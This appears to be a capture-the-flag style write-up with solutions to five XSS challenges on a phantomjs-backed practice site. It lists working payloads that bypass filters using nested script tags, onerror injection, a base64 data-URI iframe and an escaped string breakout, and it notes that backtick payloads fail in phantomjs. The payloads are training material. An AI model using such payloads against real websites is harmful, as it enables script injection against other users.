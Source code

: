 # XSS 1
`/xss1?name=hacker<<sscript>alert("XS"%2B"S")<<//script>`

# XSS 2
There have been many people wondering about their not working solutions with backticks (`).
The point here is, that the backend phantomjs engine has not implemented the new ECMAScript specification.
But the most browsers have, so you can get an alert, but the backend is not aware of that!
(I would not classify this as a bug, because the source code tells us, that they use phantomjs and we can read
on github, that the latest stable version is 2.1. The new specification is expected to be released with version 2.5 - regardless of when that should be released...)

So I think that the expected solution should look like this:
`/xss2?name=hacker%27%20onerror=%27window.onerror=alert;throw%20%22XSS%22%27`

# XSS 3
`/xss3?name="><iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=`

# XSS 4
For XSS 4 we can use JSFuck.
You can find the payload in this directory.

# XSS 5
`/xss5?name=\";alert(unescape(/%2558%2553%2553/.source));//`